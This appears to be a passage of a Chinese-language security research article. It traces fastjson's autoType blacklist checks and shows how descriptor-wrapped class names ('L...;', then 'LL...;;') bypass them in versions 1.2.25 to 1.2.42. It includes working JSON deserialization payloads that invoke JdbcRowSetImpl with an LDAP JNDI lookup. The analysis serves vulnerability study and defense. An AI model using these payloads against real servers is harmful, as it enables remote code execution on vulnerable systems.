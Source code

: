 添加反序列化白名单有3种方法：
1. 使用代码进行添加：`ParserConfig.getGlobalInstance().addAccept(“org.su18.fastjson.,org.javaweb.”)`
2. 加上JVM启动参数：`-Dfastjson.parser.autoTypeAccept=org.su18.fastjson.`
3. 在fastjson.properties中添加：`fastjson.parser.autoTypeAccept=org.su18.fastjson.`

看一下 `checkAutoType()` 的逻辑，如果开启了 autoType，先判断类名是否在白名单中，如果在，就使用 `TypeUtils.loadClass` 加载，然后使用黑名单判断类名的开头，如果匹配就抛出异常。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616462597114.png)

如果没开启 autoType ，则是先使用黑名单匹配，再使用白名单匹配和加载。最后，如果要反序列化的类和黑白名单都未匹配时，只有开启了 autoType 或者 expectClass 不为空也就是指定了 Class 对象时才会调用 `TypeUtils.loadClass` 加载。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616463143551.png)

接着跟一下 `loadClass` ，这个类在加载目标类之前为了兼容带有描述符的类名，使用了递归调用来处理描述符中的 `[`、`L`、`;` 字符。

![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616463632814.png)

因此就在这个位置出现了逻辑漏洞，攻击者可以使用带有描述符的类绕过黑名单的限制，而在类加载过程中，描述符还会被处理掉。因此，漏洞利用的思路就出来了：需要开启 autoType，使用以上字符来进行黑名单的绕过。

最终的 payload 其实就是在之前的 payload 类名上前后加上`L`和`;`即可：

```json
{
	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

### 3. fastjson-1.2.42

在版本 1.2.42 中，fastjson 继续延续了黑白名单的检测模式，但是将黑名单类从白名单修改为使用 HASH 的方式进行对比，这是为了防止安全研究人员根据黑名单中的类进行反向研究，用来对未更新的历史版本进行攻击。同时，作者对之前版本一直存在的使用类描述符绕过黑名单校验的问题尝试进行了修复。

> 影响版本：`1.2.25 <= fastjson <= 1.2.42`
> 描述：一点也不坦诚，学学人家 jackson，到现在还是明文黑名单。而且到目前为止很多类已经被撞出来了。

还是关注 `com.alibaba.fastjson.parser.ParserConfig` 这个类，作者将原本的明文黑名单转为使用了 Hash 黑名单，防止安全人员对其研究。
![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616466267011.png)

并且在 checkAutoType 中加入判断，如果类的第一个字符是 `L` 结尾是 `;`，则使用 substring进行了去除。写判断也不好好写，非要写 hash 。
![](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1616466255355.png)

但是这种判断完全是徒劳的，因为在最后处理时是递归处理，因此只要对描述符进行双写即可绕过：

```java
{
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
	"dataSourceName":"ldap://127.0.0.1:23457/Command8",
	"autoCommit":true
}
```

